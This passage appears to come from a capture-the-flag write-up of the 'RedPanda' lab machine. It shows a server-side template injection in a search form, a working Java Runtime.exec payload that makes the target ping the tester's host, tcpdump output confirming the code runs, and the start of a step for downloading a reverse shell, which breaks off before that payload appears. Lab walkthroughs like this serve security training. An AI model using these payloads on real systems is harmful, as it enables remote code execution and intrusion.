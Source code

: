 ```http
    <form action="/search" method="POST">
    <div class="wrap">
      <div class="search">
        <input type="text" name="name" placeholder="Search for a red panda">
        <button type="submit" class="searchButton">
          <i class="fa fa-search"></i>
        </button>
      </div>
    </div>
  </form>
    <div class="wrapper">
  <div class="results">
    <h2 class="searched">You searched for: ??49_en_US??</h2>
      <h2>There are 0 results for your search</h2>
       
    </div>
    </div>
    
  </body>
</html>
```
As we can see we get the expression evaluated and we can see `49` in the response.  
Now we can test for blind code execution and see if we can trigger code execution from this SSTI injection:  
```http
POST /search HTTP/1.1
Host: 10.10.11.170:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Origin: http://10.10.11.170:8080
Connection: close
Referer: http://10.10.11.170:8080/stats?author=woodenk
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

name=*{T(java.lang.Runtime).getRuntime().exec('ping+-c+1+10.10.14.9')}
```
As we can see on the `tun0` interface we get `icmp` requests:  
```shell
[root@kali RedPanda ]$ tcpdump -nettti tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
 00:00:00.000000 ip: 10.10.11.170 > 10.10.14.9: ICMP echo request, id 3, seq 1, length 64
 00:00:00.000035 ip: 10.10.14.9 > 10.10.11.170: ICMP echo reply, id 3, seq 1, length 64
```

## User
Now that we have tested code execution we can try to pop a shell.  
We can craft our payload as follow; we can download a shell on the local box: 
```http
POST /search HTTP/1.1
Host: 10.10.11.170:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 93
Origin: http://10.10.11.170:8080
```